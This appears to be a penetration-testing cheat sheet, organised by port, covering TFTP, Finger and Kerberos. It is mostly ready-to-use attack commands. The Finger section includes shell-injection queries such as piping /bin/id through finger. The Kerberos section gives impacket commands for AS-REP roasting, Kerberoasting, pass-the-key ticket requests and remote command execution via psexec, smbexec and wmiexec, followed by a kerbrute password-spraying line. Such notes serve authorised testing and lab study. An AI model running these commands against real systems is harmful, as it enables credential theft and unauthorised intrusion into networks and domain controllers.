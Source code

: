 ### Port 69 - UDP - TFTP

* Vulns tftp in server 1.3, 1.4, 1.9, 2.1, and a few more.
* Same checks as FTP Port 21.

```
nmap -p69 --script=tftp-enum.nse 10.11.1.111

```

### Port 79 - Finger

```
nc -vn 10.11.1.111 79
echo "root" | nc -vn 10.11.1.111 79

# User enumeration
finger @10.11.1.111       #List users
finger admin@10.11.1.111  #Get info of user
finger user@10.11.1.111   #Get info of user

finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"

```

### Port 88 - Kerberos

Check [Kerberos dedicated](notion://www.notion.so/post-exploitation/windows/ad/kerberos-attacks.md) section

```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN.LOCAL'" IP
use auxiliary/gather/kerberos_enumusers # MSF

# Check for Kerberoasting:
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

# GetUserSPNs
ASREPRoast:
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# Kerberoasting:
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>

# Overpass The Hash/Pass The Key (PTK):
python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
python3 getTGT.py <domain_name>/<user_name>:[password]

# Using TGT key to excute remote commands from the following impacket scripts:

python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

# <https://www.tarlogic.com/blog/como-funciona-kerberos/>
# <https://www.tarlogic.com/blog/como-atacar-kerberos/>

python kerbrute.py -dc-ip IP -users /root/htb/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain DOMAIN -outputfile kb_extracted_passwords.txt

```